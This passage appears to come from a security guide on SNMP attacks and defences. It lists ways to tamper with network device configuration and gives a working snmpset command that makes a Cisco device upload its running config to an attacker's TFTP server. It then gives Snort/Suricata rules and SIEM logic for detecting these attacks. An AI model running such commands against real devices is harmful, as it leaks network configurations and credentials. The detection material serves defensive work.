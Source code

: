 **Configuration Modification**:
- Change SNMP community strings
- Modify routing tables
- Alter VLAN configurations
- Change device hostnames/locations
- Disable interfaces

**Cisco-Specific Attacks**:
```bash
# Extract running config via TFTP
# Requires write community string
snmpset -v2c -c private 192.168.1.1 \
    1.3.6.1.4.1.9.9.96.1.1.1.1.2.1 i 1 \
    1.3.6.1.4.1.9.9.96.1.1.1.1.3.1 i 1 \
    1.3.6.1.4.1.9.9.96.1.1.1.1.4.1 a 192.168.1.100 \
    1.3.6.1.4.1.9.9.96.1.1.1.1.5.1 s "config.txt" \
    1.3.6.1.4.1.9.9.96.1.1.1.1.14.1 i 1

# Device uploads config to attacker's TFTP server
```

## Detection & Defense

### Detection Signatures

**Network IDS Rules** (Snort/Suricata):
```
# SNMP community string bruteforce
alert udp any any -> $HOME_NET 161 (
    msg:"SNMP Community String Bruteforce Attempt";
    content:"|04|"; depth:1;  # OCTET STRING
    threshold:type threshold, track by_src, count 5, seconds 10;
    sid:1000001;
)

# SNMP SET request (write operation)
alert udp any any -> $HOME_NET 161 (
    msg:"SNMP SET Request Detected";
    content:"|a3|"; offset:20; depth:1;  # SetRequest PDU
    sid:1000002;
)
```

**SIEM Detection Logic**:
```
# Multiple SNMP queries from single source
source_ip = "192.168.1.100"
dest_port = 161
protocol = UDP
count > 100 within 5 minutes
→ ALERT: Possible SNMP scan

# SNMP authentication failures
message_type = "authenticationFailure"
count > 5 within 1 minute
→ ALERT: SNMP bruteforce attempt
```

